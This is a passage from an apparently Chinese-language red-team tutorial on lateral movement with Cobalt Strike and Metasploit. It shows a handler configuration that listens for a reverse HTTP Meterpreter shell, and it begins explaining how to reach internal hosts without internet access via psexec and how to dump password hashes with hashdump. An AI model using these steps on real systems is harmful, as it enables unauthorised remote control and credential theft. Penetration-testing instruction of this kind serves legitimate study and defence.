 打开 `msf` 配置文件

```plain
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 0.0.0.0
set lport 8888
run
```

> 注意 不能使用 X64位的beacon.exe!

[![](assets/1702372940-a41fe62e354274f96e36e3098f11932e.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/13.png)

#### [](#%E5%88%A9%E7%94%A8cs%E4%B8%AD%E7%9A%84psexec%E4%B8%8A%E7%BA%BF%E5%86%85%E7%BD%91%E4%B8%8D%E5%87%BA%E7%BD%91%E4%B8%BB%E6%9C%BA "利用cs中的psexec上线内网不出网主机")利用cs中的psexec上线内网不出网主机[](#%E5%88%A9%E7%94%A8cs%E4%B8%AD%E7%9A%84psexec%E4%B8%8A%E7%BA%BF%E5%86%85%E7%BD%91%E4%B8%8D%E5%87%BA%E7%BD%91%E4%B8%BB%E6%9C%BA)

1.  `Dump Hashes导出HASH`

Beacon右键，`Access–>Dump Hashes` 或命令行中执行`hashdump命令`。  
`hashdump`必须在拥有`adminstrators`权限的情况下才能执行。
